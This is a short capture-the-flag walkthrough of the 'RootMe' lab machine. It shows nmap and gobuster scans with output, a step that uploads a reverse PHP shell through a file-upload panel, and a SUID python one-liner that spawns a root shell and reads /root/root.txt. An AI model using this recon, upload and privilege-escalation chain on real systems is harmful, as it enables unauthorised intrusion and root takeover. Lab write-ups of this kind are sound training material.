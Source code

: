 # RootMe

Very easy CTF, but the machine was very slow for me, I don't know why.


```bash
$ nmap -p- $IP | tee open_ports

Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-25 23:17 UTC
Nmap scan report for 10.10.177.174
Host is up (0.075s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 60.90 seconds
```

```bash
$ nmap -p22,80 -sV -sC 10.10.177.174 | tee nmap_scan
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-25 23:29 UTC
Nmap scan report for 10.10.177.174
Host is up (0.084s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.89 seconds
```

```bash
$ gobuster dir -u http://10.10.177.174/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster_scan
```

Gobuster finds 2 hidden dirs, /panel and /uploads

Panel lets us upload a file and /uploads lets us view the uploaded file

Upload a reverse PHP shell

Find that python is SUID

Exploit it (https://gtfobins.github.io/gtfobins/python/)[https://gtfobins.github.io/gtfobins/python/].

```bash
$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
$ cat /root/root.txt
```


